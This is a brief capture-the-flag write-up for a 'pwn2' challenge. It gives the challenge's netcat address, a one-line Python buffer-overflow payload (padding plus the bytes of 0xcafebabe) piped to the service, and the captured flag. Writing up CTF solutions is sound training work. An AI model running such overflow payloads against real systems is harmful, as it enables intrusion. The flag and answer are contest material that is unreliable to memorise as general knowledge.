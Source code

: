 **Challenge:**  nc chall.csivit.com 30007 and pwn2 (file)

Execute: `python2 -c 'print("A"*44 + "\xbe\xba\xfe\xca")' | nc chall.csivit.com 30007`

**Flag:** csictf{c4n_y0u_re4lly_telep0rt?}

